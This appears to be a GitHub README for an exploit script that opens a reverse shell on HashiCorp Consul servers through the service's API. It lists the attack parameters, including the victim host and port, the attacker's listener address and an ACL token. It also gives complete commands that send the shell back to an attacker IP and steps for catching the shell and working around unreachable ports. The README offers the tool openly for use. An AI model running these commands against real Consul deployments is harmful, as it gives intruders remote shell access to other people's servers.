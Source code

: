 ## This exploit helps you to get a reverse shell, exploiting the Hashicorp-Consul service via API, not using tools like metasploit

· When executing the script with python3 with the --help parameter, it asks us for a series of parameters
    
    --rhost RHOST  remote host  (ip of the victim machine, if not specified, 127.0.0.1 will be used)
    --rport RPORT  remote port  (port where the consul API is executed, if not specified, 8500 will be used)
    --lhost LHOST  local host   (ip where the shell will be received)
    --lport LPORT  local port   (port where the shell will be received)
    --token TOKEN  acl token    (acl token needed to authenticate with the api)

<img src="https://raw.githubusercontent.com/GatoGamer1155/imagenes-repositorios/main/exploit1.png">


· If we have what is necessary, we can give it the arguments and run it, example:

    python3 exploit.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.10 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5


· or can be compacted with the other argument options

    python3 exploit.py -rh 127.0.0.1 -rp 8500 -lh 10.10.14.10 -lp 443 -tk bb03b43b-1d81-d62b-24b5-39540ee469b5
    

· When executing the script with its arguments we should see a message with a + which indicates that the request has been sent correctly

<img src="https://raw.githubusercontent.com/GatoGamer1155/imagenes-repositorios/main/exploit2.png">


· Checking your listener, in a couple of seconds you should get a shell as the user running the service

<img src="https://raw.githubusercontent.com/GatoGamer1155/imagenes-repositorios/main/exploit3.png">


· In case it detects that it cannot connect to the host, it will give a message, check the port is exposed and use port forwarding if necessary, then try again

<img src="https://raw.githubusercontent.com/GatoGamer1155/imagenes-repositorios/main/exploit4.png">
